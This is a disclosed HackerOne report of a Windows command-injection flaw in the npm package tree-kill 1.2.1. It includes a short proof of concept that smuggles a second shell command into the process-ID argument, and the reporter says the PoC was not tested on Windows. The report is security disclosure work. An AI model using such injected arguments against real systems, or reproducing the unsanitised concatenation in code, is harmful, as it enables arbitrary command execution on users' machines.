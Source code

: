 # [tree-kill] RCE via insecure command concatenation (only Windows)

## Report Details
- **Report ID**: 701183
- **URL**: https://hackerone.com/reports/701183
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-09-24T19:40:58.828Z
- **Disclosed**: 2019-12-04T19:54:11.050Z

## Reporter
- **Username**: mik317
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `RCE` issue in the `tree-kill` module.
It allows to execute `arbitrary commands remotely inside the victim's PC`

# Module
**module name:** `tree-kill`
**version:** `1.2.1`
**npm page:** `https://www.npmjs.com/package/tree-kill`

## Module Description
> Kill all processes in the process tree, including the root process.

## Module Stats
[N/A] downloads in the last day
[2,108,440] downloads in the last week
[~10M] downloads in the last month

## Vulnerability Description
The issue occurs because a `user input` is concatenated with a `command` that will be executed without any check. The issue arises here: https://github.com/pkrumins/node-tree-kill/blob/master/index.js#L20 (as you can see, the `Linux` part is sanitized, while the `Win` one no ... it simply uses the `+` operand to concatenate the input)

## Steps To Reproduce:
1. Create the following PoC file:

```js
// poc.js
var kill = require('tree-kill');
kill('3333332 & echo "HACKED" > HACKED.txt & ');
```
1. Execute the following commands in another terminal:

```bash
npm i tree-kill # Install affected module
dir # Check *HACKED.txt* doesn't exist
node poc.js #  Run the PoC
dir # Now *HACKED.txt* exists :)
```
1. A new file called `HACKED.txt` will be created, containing the `HACKED` string
Note I can't provide a screenshot as I'm working on `Linux` (I'll be able to reinstall win only the next week), but the code showed in the module (line 20) makes clear the attack is possible. Pls note I'm not sure of the `batch syntax used` , as said I can't verify it on a `win` machine. Before close the report, share with me eventual problems, in order to make me able to determine if the provided PoC is fully working or lacks in something :)

## Patch
> Don't concatenate `commands` using insecure `user's inputs` :)

## Supporting Material/References:
- [OPERATING SYSTEM VERSION]: Kali Linux (should be used a `win OS` ... I've simply checked the code)
- [NODEJS VERSION]: 10.16.3
- [NPM VERSION]: 6.0.9

# Wrap up
- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N]

## Impact

`RCE` on `tree-kill` via `insecure command concatenation`

## Attachments
No attachments
